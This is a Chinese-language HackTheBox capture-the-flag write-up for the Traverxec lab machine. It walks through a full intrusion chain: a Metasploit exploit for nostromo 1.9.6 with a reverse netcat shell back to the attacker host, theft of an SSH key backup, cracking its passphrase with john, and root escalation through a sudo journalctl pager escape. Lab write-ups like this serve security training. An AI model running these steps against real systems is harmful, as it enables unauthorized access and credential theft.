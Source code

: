 # Traverxec

## 环境

平台：HackTheBox

攻击机：Kali（IP：10.10.15.145）

靶机：Traverxec（IP：10.10.10.165）

地址：https://www.hackthebox.eu/home/machines/profile/217

## Let's go

```
nmap -A 10.10.10.165
```

![](./img/Traverxec-01.png)

> **浏览网页并没有发现什么信息，但是搜索发现nostromo1.9.6具有漏洞**

```
msfconsole
search nostromo
use 0
info
```

![](./img/Traverxec-02.png)
![](./img/Traverxec-03.png)

```
set rhosts 10.10.10.165
set payload cmd/unix/reverse_netcat_gaping	 #建议
set lhost 10.10.15.145
set lport 4444
run
```

![](./img/Traverxec-04.png)

```
python -c 'import pty;pty.spawn("/bin/bash")';
cd /var/nostromo/conf
cat nhttpd.conf
```

![](./img/Traverxec-05.png)
![](./img/Traverxec-06.png)

>**拿到的密文放到服务器去跑，半天没出来。。。**
>
>**上面并没有发现public_www目录，怀疑在david中**

```
cd /home/david/public_www
cd protected-file-area
ls -la
```

![](./img/Traverxec-07.png)

```
base64 backup-ssh-identity-files.tgz                    #通过base64传输文件
vim 64                                                  #写入64文件
cat 64 | base64 -d > backup-ssh-identity-files.tgz      #解码输出
tar -zxvf backup-ssh-idntity-files.tgz
```

![](./img/Traverxec-08.png)

![](./img/Traverxec-09.png)

> **使用私钥登陆发现需要密码，使用john进行破解**

```
cd home/david/.ssh/
python /usr/share/john/ssh2john.py id_rsa > passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![](./img/Traverxec-10.png)

```
ssh david@10.10.10.165 -i ./id_rsa
```

![](./img/Traverxec-11.png)

```
cd bin
cat server-stats.sh
```

![](./img/Traverxec-12.png)

> **查询发现journalctl可以提权，推荐网站：https://gtfobins.github.io/**

```
#需要调整终端窗口大小，跟less类似
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
cd
cat root.txt
```

![](./img/Traverxec-13.png)